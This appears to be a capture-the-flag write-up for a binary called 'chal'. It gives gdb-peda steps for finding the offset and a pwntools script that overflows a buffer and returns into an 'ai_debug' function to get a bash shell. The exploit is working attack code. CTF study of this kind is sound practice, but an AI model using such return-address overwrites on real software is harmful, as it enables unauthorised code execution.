 # file 
[chal]()

# SOL
- found that ai_debug has bash shell so
- gdb-peda$ pattern create 100
- gdb-peda$ pattern offset AA0A
- gdb-peda$ info functions ai_debug
- and return address to main


```
#!/usr/bin/python3

from pwn import *

#p = remote(host, port)
elf = ELF('./chal')
p = elf.process()

offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num



p.sendline(buffer)
p.interactive()
```
